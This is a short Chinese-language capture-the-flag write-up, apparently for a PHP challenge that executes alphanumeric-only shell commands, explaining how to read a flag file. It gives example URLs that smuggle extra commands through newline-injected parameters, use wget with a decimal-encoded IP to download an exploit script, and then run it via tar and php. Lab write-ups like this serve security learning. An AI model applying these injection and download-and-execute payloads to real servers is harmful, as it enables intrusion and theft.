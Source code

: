 ### writeUp 

这是在绿盟实习,xfkxfk讲过的一个原题 @zer0yu

---------------------
从源码可以看出index.php可以执行纯字母数字的linux命令，目标是去读flag.php文件中的flag.
1. 利用换行可绕过正则表达式执行命令。
2. 通过生成ip地址长整数绕过正则表达式，下载exploit脚本。
3. 通过tar命令将有后缀脚本打包，为无后缀文文件,再用php命令执行

-------- 

次题目的主要矛盾就是,我们没有办法输入特殊字符,所以没有办法指定参数 
wget可以识别16进制,10进制,8进制的文件,所以可以wget下载文件.
但是wget下载之后,默认文件名是index.html  有特殊字符点,我们还是没有办法执行,
所以想到tar 命令,将文件打包为无后缀文件,但是不压缩,所以原来文件中的字符串原样放到压缩档里面去,
然后就可以用php来执行php文件了.


Example:
```
http://localhost/canYouSeeMe?args[]=whatever%0a&args[]=mkdir&args[]=test%0a&args[]=cd&args[]=test%0a&args[]=wget&args[]=2130706433
http://localhost/canYouSeeMe?args[]=whatever%0a&args[]=tar&args[]=cvf&args[]=exploit&args[]=test%0a&args[]=php&args[]=exploit
```